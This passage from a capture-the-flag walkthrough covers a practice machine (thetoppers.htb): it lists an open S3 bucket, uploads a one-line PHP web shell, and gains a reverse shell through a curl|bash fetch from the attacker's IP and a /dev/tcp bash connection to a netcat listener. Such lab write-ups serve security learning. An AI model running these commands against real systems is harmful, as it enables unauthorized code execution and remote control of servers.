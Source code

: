 <img width="817" height="210" alt="image" src="https://github.com/user-attachments/assets/655a7c54-18c4-44e5-a70e-843ccc554748" />   

Well, we get something different with `http://s3.thetoppers.htb` it shows some json of {"Status": "running"}. After looking into s3 subdomains, it indicates that they're using a backend storage utility. From reading the [AWS user resources for accessing buckets](https://docs.aws.amazon.com/AmazonS3/latest/userguide/access-bucket-intro.html), we can use the AWSCLI to try and interact with it remotely.

Our resource specifies that we need to provide authentication creds with `aws configure`, but we don't have any... so let's try just supplying some fooey before requesting the s3 bucket virtual host link followed by `s3 ls` to list the buckets on this host.    
  
<img width="750" height="172" alt="image" src="https://github.com/user-attachments/assets/73f83254-bb67-4523-84f6-9b422e2f2126" />    

Now let's go ahead and look for stuff inside that bucket by specifying `s3://[bucketname]` at the end of our previous ls command.    

<img width="589" height="102" alt="image" src="https://github.com/user-attachments/assets/9d293f9e-051f-42c0-b083-3e641ae1a8f9" />   

A web access (.htaccess) file, index.php file, and images directory. Looks just like the results from our directory scan of the initial domain thetoppers.htb. This is most likely the root directory of that site stored in the cloud. I'd like to try getting access to a shell on this web server.   

Just like the `ls` command, the awscli has a `cp` command to allow us to upload files to s3 buckets. My thinking is that if we can get a file into this bucket, we can access/run it from the php website on the original domain.   

`awscli http://s3.thetoppers.htb s3 cp [filename] s3://thetoppers.htb`   

Now let's find a php shell file. I like the one from [Sente on github](https://gist.github.com/sente/4dbb2b7bdda2647ba80b).  
- `<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>` in a fooey.php file.  

<img width="961" height="222" alt="image" src="https://github.com/user-attachments/assets/616fd0e1-318c-4aac-8845-680c88fc5816" />     

It should be there now... let's browse and see if it works with "thetopper.htb/fooey.php?cmd=[system command]"  

<img width="751" height="158" alt="image" src="https://github.com/user-attachments/assets/7973945b-9b87-4205-a733-fb02ffcc4ebc" />  

<img width="866" height="988" alt="image" src="https://github.com/user-attachments/assets/5d7b61c1-10c6-4c65-b4b7-069161c4a915" />   

Now let's go ahead and create and upload a bash reverse shell (bash -i >& /dev/tcp/10.10.14.128/1337 0>&1) that'll curl and execute (http://thetoppers.htb/fooey.php?cmd=curl 10.10.14.128:8000/shell.sh|bash) the shell file, which will create a reverse connection to a netcat listeer `nc -lvp 1337`    
 
<img width="883" height="63" alt="image" src="https://github.com/user-attachments/assets/8cd2da87-27ce-49a6-a821-72e2a9ca59fe" />   

And we'll need to start a python web server on our local machine (`python3 -m http.server 8000`) to host the bash shell to be downloaded.    

Now we browse to the web page with the fooey.php link with the reverse shell bash command and receive an interactive shell on our netcat.    
  